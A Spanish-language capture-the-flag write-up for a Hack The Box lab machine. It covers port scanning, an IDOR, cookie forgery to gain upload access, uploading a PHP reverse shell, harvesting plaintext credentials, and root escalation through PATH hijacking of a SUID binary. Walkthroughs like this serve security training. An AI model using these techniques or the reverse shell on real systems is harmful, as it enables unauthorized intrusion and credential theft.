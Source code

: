 ```yaml
---
title: Archetype HTB
date: 2023-02-05
---
```


## Fase de reconocimiento

Tras comprobar si la máquina está activa con ping, en base al ttl, podemos sospechar que se trata de una máquina **linux**. Lanzamos [[nmap]]:

```shell
nmap -p- --open -sS -min-rate 5000 -n -Pn <ip>
```

Obtenemos:

```shell
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Podemos sospechar que se trata de una aplicación web, por lo que buscamos en el navegador, mientras tratamos de buscar las versiones y lanzamos scripts de enumeración:

```shell
sudo nmap -p22,80 -sCV <ip>
```

Y obtenemos:

```shell
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61:e4:3f:d4:1e:e2:b2:f1:0d:3c:ed:36:28:36:67:c7 (RSA)
|   256 24:1d:a4:17:d4:e3:2a:9c:90:5c:30:58:8f:60:77:8d (ECDSA)
|_  256 78:03:0e:b4:a1:af:e5:c2:f9:8d:29:05:3e:29:c9:f2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Welcome
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


### Reconocimiento con burpsuite

Burpsuite puede hacer de *web crawler*, o araña y analizar el esquema de un sitio web. Para ello primero debemos configurar firefox para que mande la información por medio de un proxy. 

#### Configurando firefox

Vamos a preferencias, buscamos proxy en la barra de búsqueda y seleccionamos *"preferences..."*. A continuación seleccionamos *"configuración manual"* y ponemos la ip `127.0.0.1` y el puerto `8080`. También es recomendable activar la opción *"Also use this proxy for FTP and HTTPS"* para asegurar que todo el trádico vaya a través del proxy.

#### Utilizando burpsuite

Antes de empezar, también debemos desabilitar la itercepción en burpsuite (que viene activa por defecto). Para ello, en la pestaña de *Proxy* y aseguramos de desabilitar el campo `Ìntercept is on`.

Ahora, ya podemos volver a la página y refrescarla con la pestaña *Target* abierta. En el árbol que se crea a la izquierda, podemos ver un directorio `/cdn-cgi/login`.


### Accediendo a la web

Al ver dicha ruta, e intentar varios usuarios y contraseñas, accedemos como invitado.
Y al investigar la pestaña *Account* vemos que hay un parámetro `id` que se pasa por url:

```python
http://10.129.156.147/cdn-cgi/login/admin.php?content=accounts&id=2
```

Si ponemos `id=1`, accederemos como el usuario administrador, viendo la siguiente información:

| Access ID | Name | Email |
|-----------|--------|-------|
| 34322 | admin | admin@megacorp.com |

Vemos también una pestaña para subir archivos, sin embargo necesitamos privilegios. En este punto, podríamos tratar de comprobar si podemos manipular alguna cookie.


## Manipulando cookies

Podemos ver y manipular cookies en Mozilla Firefox mediante el uso de las herramientas de desarrollador. Para ello vamos a la pestaña de la subida de archivos y hacemos click derecho e *"inspeccionar"*. En la sección *"storage"* (*"almacenamiento"*), vemos que tenemos una cookie `role=guest` y `user=2233`. Intentamos cambiarlo a `role=admin` y `user=34322` (credenciales que obtuvimos en el punto anterior).

Tras recargar la página, tenemos acceso a la página para subir archivos.

## Subiendo una reverse shell

Utilizaremos una reverse shell en php. Yo utilizaré la siguiente:

```php
<?php  
<SNIP>  
set_time_limit (0);  
$VERSION = "1.0";  
$ip = '127.0.0.1'; // CHANGE THIS WITH YOUR IP  
$port = 1234; // CHANGE THIS WITH YOUR LISTENING PORT  
$chunk_size = 1400;  
$write_a = null;  
$error_a = null;  
$shell = 'uname -a; w; id; /bin/sh -i';  
$daemon = 0;  
$debug = 0;  
<SNIP>  
?>
```

La subimos y probamos que se encuentre en la pestaña *"Uploads"* (`/uploads/reverse.php`). Y en efecto, existe el directorio aunque no tengamos acceso. Nos ponemos en escucha y recargamos.

Deberíamos tener abierta una shell.


## Cambiando de usuario

Antes de nada, para obtener una terminal con todos los comandos, podemos ejecutar:

```shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Sabemos de la existencia de un directorio `/var/www/html/cdn-cgi/login`, en el cuál, mediante la siguiente línea podemos buscar posibles contraseñas en texto plano:

```shell
cat * | grep -i passw*
```

Obteniendo:

```javascript
if($_POST["username"]==="admin" && $_POST["password"]==="MEGACORP_4dm1n!!")
<input type="password" name="password" placeholder="Password" />
```

Así que ya tenemos la contraseña `MEGACORP_4dm1n!!`. Ahora podemos buscar en el `/etc/passwd` algún usuario que le pueda corresponder. Encontramos:

```
root:x:0:0:root:/root:/bin/bash
robert:x:1000:1000:robert:/home/robert:/bin/bash
```

Así que probamos:

```shell
su robert
```

Sin embargo no funciona para ninguno de los dos. Sin embargo, si investigamos los archivos:

```shell
cat db.php
```

```php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
```

Obteniendo la contraseña `M3g4C0rpUs3r!`, que sí nos permite iniciar sesión. La falg del usuario está en `/home/robert`


## Escalada de privilegios

Podemos tratar de utilizar `sudo -l`, pero vemos que robert no pertenece al grupo *sudoers*. Con `id`, podemos ver que pertenecemos al grupo *bugtracker*:

```shell
uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)
```

Con la siguiente línea podemos buscar algún binario que pertenezca a dicho grupo:

```shell
find / -group bugtracker 2>/dev/null
```

Encontrando el fichero `/usr/bin/bugtracker`. Del que tratamos de listar su información y privilegios:

```shell
ls -la /usr/bin/bugtracker && file /usr/bin/bugtracker
```

```shell
-rwsr-xr-- 1 root bugtracker 8792 Jan 25  2020 /usr/bin/bugtracker
/usr/bin/bugtracker: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 3.2.0, BuildID[sha1]=b87543421344c400a95cbbe34bbc885698b52b8d, not stripped
```

Del que vemos que tiene un privilegio `suid`, que podría ser una ruta de explotación.

### Abusando de los privilegios suid

Si ejecutamos el archivo veremos que lista otro archivo utilizando `cat`, por lo que en `/tmp` creamos un fichero que también se llame `cat`, y que contenga:

```
/bin/sh
```

Y le otorgamos privilegios de ejecución:

```shell
chmod +x cat
```

Ahora añadiremos `/tmp` al `PATH`:

```shell
export PATH=/tmp:$PATH
```

Finalmente ejecutamos el `bugtracker`, como ahora `/tmp` está antes en el `PATH`, nuestro `cat`, *malicioso* se ejecutará en lugar del original, otorgándonos una terminal como administrador.
La flag está en `/root`.

